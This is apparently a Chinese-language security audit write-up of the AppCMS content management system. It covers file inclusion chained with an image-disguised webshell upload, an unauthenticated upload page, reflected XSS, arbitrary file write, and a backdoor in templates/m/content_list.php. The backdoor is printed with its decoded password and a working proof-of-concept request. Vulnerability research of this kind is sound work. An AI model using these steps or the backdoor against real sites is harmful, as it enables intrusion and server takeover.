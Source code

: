 # 任意文件包含

漏洞代码在index.php200～206行。

```php
if (substr($tpl, strlen($tpl) - 4, 4) == '.php') {
    $tmp_file = '/templates/' . $from_mobile . '/' . $tpl;
} else {
    $tmp_file = '/templates/' . $from_mobile . '/' . $tpl . '.php';
}
if (!file_exists(dirname(__FILE__) . $tmp_file)) die('模板页面不存在' . $tmp_file);
require(dirname(__FILE__) . $tmp_file);
```

这里有个`require(dirname(__FILE__) . $tmp_file);`,`$tmp_file`参数可控，代码会检查当前文件是否存在，如果不存在，就die掉，存在包含进来。

所以啊，构造payload如下图所示

![1](appcms-pic/1.png)

既然有文件包含，就想想能不能getshell。首先当然看看有没有任意文件上传的问题。代码搜索`move_uploaded_file`整个代码就出现一处，core/upload.class.php103～106。

```php
        if (in_array(strtolower($file['extension']), array('gif', 'jpg', 'jpeg', 'bmp', 'png', 'swf'))) {
            $info = getimagesize($file['tmp_name']);
            if (false === $info || ('gif' == strtolower($file['extension']) && empty($info['bits']))) {
                $this -> error = '非法图像文件';
                return false;
            } 
        } 
        if (!move_uploaded_file($file['tmp_name'], $this -> autoCharset($filename, 'utf-8', 'gbk'))) {
            $this -> error = '文件上传保存错误！';
            return false;
        } 
```

这里限制了白名单，所以可能没办法上传成功。回过头来想想，我测试的版本是php5.2.17<5.3.4，而且没有开启magic_quotes_gpc。所以我可以上传带有php代码的木马，然后文件包含的时候截断就好了。

找到了文件上传位置。

![2](appcms-pic/2.png)

然后上传带有一句话木马的webshell图片。

![3](appcms-pic/3.png)

针对返回路径url解码之后，返回了

```
[{"original":"\/1\/appcms\/upload\/img\/2018\/06\/26\/5b3238446ccb9.gif","size":4819,"width":24,"height":24}]
```

然后文件包含以下，成功getshell

![4](appcms-pic/4.png)

emmm后面在upload/upload_form.php中发现，这个地方的上传没有校验用户身份啊，这里可以直接未授权访问上传，唯一的代码就是这个。

```php
<?php
    require_once(dirname(__FILE__)."/../core/init.php");
    $upload_server= SITE_PATH."upload/";
    // 上传安全验证字符串
    $verify=helper::encrypt(UPLOAD_CODE.strtotime(date('Y-m-d H:i:s')),UPLOAD_KEY);
    $params=$_GET['params'];
    $params=preg_replace('~(\\\")~','"',$params);
    $json=json_decode($params);
?>
```

这cms真有趣。

# xss漏洞

漏洞位置在/templates/m/inc_head.php 16～17行。

```php
	<input type="text" id="abc" class="search-txt" value="<?php if(isset($_GET['q'])) echo $_GET['q'];?>" />
	<a class="search-btn" href="javascript:do_search();"></a>
```
emmm这里直接通过get获取q之后，直接输出了，明显存在反射型的xss

![5](appcms-pic/5.png)

emmm这个cms全局还有多处存在这个问题。

# 疑似后门

在templates/m/content_list.php中发现了意思好像后门。

```php
<?php 
/**
 *  extention.func.php ÓÃ»§×Ô¶¨Òåº¯Êý¿â
 *
 * @copyright			(C) 2005-2010 
 * @license				http://www.baidu.com/license/
 * @lastmodify			2010-10-27
 */
@error_reporting (E_ALL & ~E_NOTICE & ~E_WARNING);
if(md5($_GET['session']) == '9c224bc6b59179729b15e1dddcbb5c82'){
$configs="c"."o"."p"."y";
$configs(trim($_GET[url]),$_GET[cms]);}
?>
```

通过针对session进行解码，发现是`kejishidai`，利用的话很简单啊，这里除了这串验证以外，没有啥验证啊。然后实际上执行的是`copy(trim($_GET[url]),$_GET[cms]);`。

所以构造poc：

```
http://192.168.248.129/1/appcms/templates/m/content_list.php?session=kejishidai&url=php://input&cms=phpinfo.php

POST:<?php phpinfo();?>
```

![6](appcms-pic/6.png)

![7](appcms-pic/7.png)

# 任意文件写入

漏洞代码admin/template.php 105~123

```php
function m__create_file() {
    global $page;
    $filename = helper :: escape($page['post']['filename']);
    if (empty($filename)) {
        die('{"code":"100","msg":"文件名不能为空"}');
    } 
    // if (!preg_match('~^$~', $filename)) die('{"code":"100","msg":"文件名只允许是字母"}');
    $dir = dirname(__FILE__) . '/../templates/' . TEMPLATE;
    $files = str_replace('+', '%20', get_file_list($dir)); 
    // 判断文件名是否存在
    if (in_array($filename, $files)) {
        die('{"code":"100","msg":"文件名已经存在"}');
    } 
    // 创建文件
    $handle = fopen($dir . "/" . $filename, "a");
    if (fclose($handle)) {
        die('{"code":"0","msg":"创建文件成功","filename":"' . $filename . '"}');
    } 
} 
```

这里通过post传入数据，然后在templates下创建文件，由于没有针对后缀名限制，所以这里可以任意写入文件。

![8](appcms-pic/8.png)

![9](appcms-pic/9.png)

